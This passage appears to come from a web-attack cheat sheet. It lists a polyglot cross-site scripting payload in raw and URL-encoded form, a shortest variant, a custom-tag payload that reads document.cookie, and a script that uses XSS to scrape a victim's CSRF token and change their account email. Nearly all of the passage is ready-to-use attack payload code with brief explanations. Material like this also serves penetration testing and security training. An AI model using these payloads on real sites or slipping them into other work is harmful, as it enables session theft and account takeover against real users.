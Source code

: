 ```
JavaScript://%250Aalert?.(1)//*'/*\'/*"/*\"/*`/*\`/*%26apos;)/*<!-></Title/</Style/</Script/</textArea/</iFrame/</noScript>\74k<K/contentEditable/autoFocus/OnFocus=/*${/*/;{/**/(alert)("x2467")}//><Base/Href=//praetorian.com\76->\
```

### 2.7.3	ENCODED

```
JavaScript%3A%2F%2F%25250Aalert%3F.(1)%2F%2F*%27%2F*%5C%27%2F*%22%2F*%5C%22%2F*%60%2F*%5C%60%2F*%2526apos%3B)%2F*%3C!-%3E%3C%2FTitle%2F%3C%2FStyle%2F%3C%2FScript%2F%3C%2FtextArea%2F%3C%2FiFrame%2F%3C%2FnoScript%3E%5C74k%3CK%2FcontentEditable%2FautoFocus%2FOnFocus%3D%2F*%24%7B%2F*%2F%3B%7B%2F**%2F(alert)(%22x2467%22)%7D%2F%2F%3E%3CBase%2FHref%3D%2F%2Fpraetorian.com%5C76-%3E%5C
```

### 2.7.4	Shortest

`<K/contentEditable/autoFocus/OnFocus=(alert)("x2467")>`

## 2.8	CSRF THROUGH XSS

### 2.8.1	[29]

```
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.setRequestHeader('Content-Type','application/x-www-form-urlencoded');
req.send();
function handleResponse() {
var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
var changeReq = new XMLHttpRequest();
changeReq.open('post', '/my-account/change-email', true);
changeReq.setRequestHeader('Content-Type','application/x-www-form-urlencoded');
changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>
```

- req.open points to /my-account since this is the webpage where the query CSRF is sent to client.

- var `token` is set this way since the csrf token is labeled as "csrf" in HTML

- changeReq request imitates normal POST request, including URL and HTTP body.

## 2.9	XSS VIA CUSTOM TAG

### 2.9.1	[32]

#### 2.9.1.1	EXAMPLE PAYLOAD

`<xss id=x2467 onfocus=alert(document.cookie) tabindex=1>`
